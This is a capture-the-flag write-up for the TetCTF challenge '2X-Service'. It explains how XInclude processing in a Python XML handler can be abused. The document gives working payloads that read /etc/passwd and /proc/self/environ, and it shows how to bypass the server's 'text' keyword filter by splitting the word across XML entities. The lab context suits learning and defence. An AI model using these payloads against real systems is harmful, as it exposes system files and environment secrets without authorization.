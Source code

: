 # 2X-Service

{% file src="../../.gitbook/assets/app.py" %}

This challenge revolves around an XML parser:

```python
@socketio.on('message')
def handle_message(xpath, xml):
	if len(xpath) != 0 and len(xml) != 0 and "text" not in xml.lower():
		try:
			res = ''
			root = ElementTree.fromstring(xml.strip())
			ElementInclude.include(root)
			for elem in root.findall(xpath):
				if elem.text != "":
					res += elem.text + ", "
			emit('result', res[:-2])
		except Exception as e:
			emit('result', 'Nani?')
	else:
		emit('result', 'Nani?')
```

Notice that `ElementInclude.include(root)` is used, which allows [XInclude directives](https://www.w3.org/TR/xinclude/).

XInclude directives allow the parsing of files as either `text` or `xml`. For example, the following will include the contents of `/etc/passwd` as part of the results.

```markup
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
	<xi:include parse="text" href="/etc/passwd"/>
</foo>
```

However, the server checks that `"text" not in xml.lower()`. This poses a problem, because `parse="xml"` will raise an error when used with non-XML content like `/etc/passwd`. To get around this, we can simply define XML entities, then combine them to form the string `text`:

```markup
<!DOCTYPE data [
	<!ENTITY a0 "te" >
	<!ENTITY a1 "xt" >
]>
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
	<xi:include parse="&a0;&a1;" href="/etc/passwd"/>
</foo>
```

The flag was in the environment variable, so we read `/proc/self/environ` to get

`FLAG=TetCTF{Just_Warm_y0u_uP_:P__}`
